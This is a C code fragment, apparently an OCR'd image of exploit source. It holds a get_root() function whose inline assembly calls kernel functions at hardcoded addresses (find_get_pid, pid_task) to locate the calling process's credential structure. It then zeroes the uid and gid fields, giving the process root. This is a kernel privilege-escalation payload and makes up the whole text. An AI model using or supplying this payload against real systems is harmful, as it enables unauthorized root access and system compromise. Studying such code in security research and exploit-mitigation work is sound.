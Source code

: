 ```c
unsigned long*  find_get_pid = (unsigned long*)0xffffffff81077220;
unsigned long*  pid_task     = (unsigned long*)0xffffffff81077180;
int pid = getpid();
void get_root() {

        asm(
        "sub    $0x18,%rsp;"
        "mov    pid,%edi;"
        "callq  *find_get_pid;"
        "mov    %rax,-0x8(%rbp);"
        "mov    -0x8(%rbp),%rax;"
        "mov    $0x0,%esi;"
        "mov    %rax,%rdi;"
        "callq  *pid_task;"
        "mov    %rax,-0x10(%rbp);"
        "mov    -0x10(%rbp),%rax;"
        "mov    0x5f8(%rax),%rax;"
        "mov    %rax,-0x18(%rbp);"
        "mov    -0x18(%rbp),%rax;"
        "add    $0x4,%rax;"
        "movl   $0x0,(%rax);"
        "mov    -0x18(%rbp),%rax;"
        "add    $0x8,%rax;"
        "movl   $0x0,(%rax);"
        "mov    -0x18(%rbp),%rax;"
        "add    $0xc,%rax;"
        "movl   $0x0,(%rax);"
        "mov    -0x18(%rbp),%rax;"
        "add    $0x10,%rax;"
        "movl   $0x0,(%rax);"
        "mov    -0x18(%rbp),%rax;"
        "add    $0x14,%rax;"
        "movl   $0x0,(%rax);"
        "mov    -0x18(%rbp),%rax;"
        "add    $0x18,%rax;"
        "movl   $0x0,(%rax);"
        "mov    -0x18(%rbp),%rax;"
        "add    $0x1c,%rax;"
        "movl   $0x0,(%rax);"
        "mov    -0x18(%rbp),%rax;"
        "add    $0x20,%rax;"
        "movl   $0x0,(%rax);"
        "nop;"
        "leaveq;" 
        "retq   ;");

}
```

---
